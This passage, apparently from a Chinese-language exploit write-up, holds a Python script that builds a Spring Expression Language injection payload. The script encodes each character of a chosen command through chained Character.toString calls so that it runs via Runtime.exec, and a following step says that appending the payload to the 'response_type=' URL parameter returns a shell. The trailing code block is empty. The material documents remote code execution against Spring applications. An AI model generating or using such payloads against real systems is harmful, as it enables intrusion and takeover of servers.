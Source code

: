 ![img](assets/1669956494666-52f4e408-803d-4d78-876a-328c1b0665e0.png)

```python
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)
```

1.  如上图，生成了一大串SpEL语句。url中`response_type=`参数后附带上这个SpEL语句，访问成功弹回shell：  

```python
```